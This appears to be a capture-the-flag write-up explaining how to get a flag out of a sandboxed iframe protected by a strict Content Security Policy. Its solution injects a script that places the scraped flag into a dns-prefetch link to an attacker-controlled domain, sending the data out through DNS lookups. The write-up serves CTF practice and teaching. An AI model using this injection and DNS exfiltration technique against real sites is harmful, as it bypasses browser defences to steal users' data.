 # Trivial

### Problem 

The flag is stored in the localStorage of a browser located on the server. We are given a route to inject HTML into an iframe into the home page opened on the browser. The page sets a Content Security Policy of `default-src 'none';` effectively blocking all requests, even to itself. The iframe also has a sandbox restriction of `allow-scripts`, which prevents popups and access to the parent document, but allows scripts.

### Solution

I did not solve this challenge during the contest window. However I did try out the solution myself afterwards. 

Obtaining the flag is easy, we can extract the contents of the flag using a simple regex on the document text: 
```js
/CTF\{(.*)\}/.exec(document.body.innerText)[1];
```
The hard part is actually sending the flag. Due to the strict Content Security Policy, there was hardly a way to do it. However it appears that using DNS prefetching can bypass this, and the flag can be received by logging DNS requests. 

[messwithdns](https://messwithdns.net/) was a suggested tool, so by clicking `Start Experimenting` and then using the subdomain in the following HTML, we can bypass the CSP and obtain the flag in the request log: 
```html
<script>
document.getElementsByTagName('body')[0].innerHTML += `\<link rel="dns-prefetch" href="//${/CTF\{(.*)\}/.exec(document.body.innerText)[1]}.DOMAIN_HERE"\>`
</script>
```


[//]: # I did not obtain the actual flag but it works on local server. 

